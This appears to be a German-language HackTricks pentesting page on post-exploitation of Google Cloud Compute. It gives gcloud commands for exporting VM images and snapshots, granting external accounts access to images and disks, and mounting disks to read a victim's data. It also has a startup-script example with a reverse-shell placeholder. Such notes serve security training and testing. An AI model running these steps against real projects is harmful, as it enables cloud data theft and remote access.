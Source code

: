 # GCP - Compute Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Compute

Für weitere Informationen zu Compute und VPC (Networking) siehe:

{{#ref}}
../gcp-services/gcp-compute-instances-enum/
{{#endref}}

### Exportieren & Inspektieren von Bildern lokal

Dies würde einem Angreifer ermöglichen, **auf die Daten in bereits vorhandenen Bildern zuzugreifen** oder **neue Bilder von laufenden VMs zu erstellen** und auf deren Daten zuzugreifen, ohne Zugriff auf die laufende VM zu haben.

Es ist möglich, ein VM-Bild in einen Bucket zu exportieren und es dann herunterzuladen und lokal mit dem Befehl zu mounten:
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
Um diese Aktion auszuführen, benötigt der Angreifer möglicherweise Berechtigungen für den Speicher-Bucket und auf jeden Fall **Berechtigungen für cloudbuild**, da es der **Dienst** ist, der aufgefordert wird, den Export durchzuführen.\
Darüber hinaus müssen für das Funktionieren der Codebuild SA und der Compute SA privilegierte Berechtigungen vorhanden sein.\
Die Cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` benötigt:

- roles/iam.serviceAccountTokenCreator
- roles/compute.admin
- roles/iam.serviceAccountUser

Und die SA `<project-id>-compute@developer.gserviceaccount.com` benötigt:

- roles/compute.storageAdmin
- roles/storage.objectAdmin

### Exportieren & Überprüfen von Snapshots & Festplatten lokal

Es ist nicht möglich, Snapshots und Festplatten direkt zu exportieren, aber es ist möglich, **einen Snapshot in eine Festplatte, eine Festplatte in ein Image** zu **transformieren** und gemäß dem **vorherigen Abschnitt** dieses Image zu exportieren, um es lokal zu überprüfen.
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
### Inspect an Image creating a VM

Mit dem Ziel, auf die **Daten, die in einem Image gespeichert sind** oder innerhalb einer **laufenden VM**, von wo ein Angreifer **ein Image erstellt hat,** zuzugreifen, ist es möglich, einem externen Konto Zugriff auf das Image zu gewähren:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
und dann eine neue VM daraus erstellen:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Wenn Sie Ihrem externen Konto keinen Zugriff über das Image gewähren konnten, könnten Sie eine VM mit diesem Image im Projekt des Opfers starten und **die Metadaten dazu bringen, eine Reverse-Shell auszuführen**, um auf das Image zuzugreifen, indem Sie den Parameter hinzufügen:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Überprüfen eines Snapshots/Disks, indem er an eine VM angehängt wird

Mit dem Ziel, auf die **Daten, die auf einem Disk oder einem Snapshot gespeichert sind, zuzugreifen, könnten Sie den Snapshot in einen Disk, einen Disk in ein Image umwandeln und die vorherigen Schritte befolgen.**

Oder Sie könnten **einem externen Konto Zugriff** auf den Disk gewähren (wenn der Ausgangspunkt ein Snapshot ist, gewähren Sie Zugriff auf den Snapshot oder erstellen Sie einen Disk daraus):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Hängen Sie die Festplatte** an eine Instanz an:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mounten Sie die Festplatte innerhalb der VM:

1.  **SSH in die VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2.  **Identifizieren Sie die Festplatte**: Sobald Sie in der VM sind, identifizieren Sie die neue Festplatte, indem Sie die Festplattengeräte auflisten. Typischerweise finden Sie sie als `/dev/sdb`, `/dev/sdc` usw.
3.  **Formatieren und Mounten der Festplatte** (wenn es sich um eine neue oder rohe Festplatte handelt):

- Erstellen Sie einen Mount-Punkt:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

- Mounten Sie die Festplatte:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Wenn Sie **keinen Zugriff auf ein externes Projekt** für den Snapshot oder die Festplatte gewähren können, müssen Sie möglicherweise **diese Aktionen innerhalb einer Instanz im selben Projekt wie der Snapshot/die Festplatte** durchführen.

{{#include ../../../banners/hacktricks-training.md}}
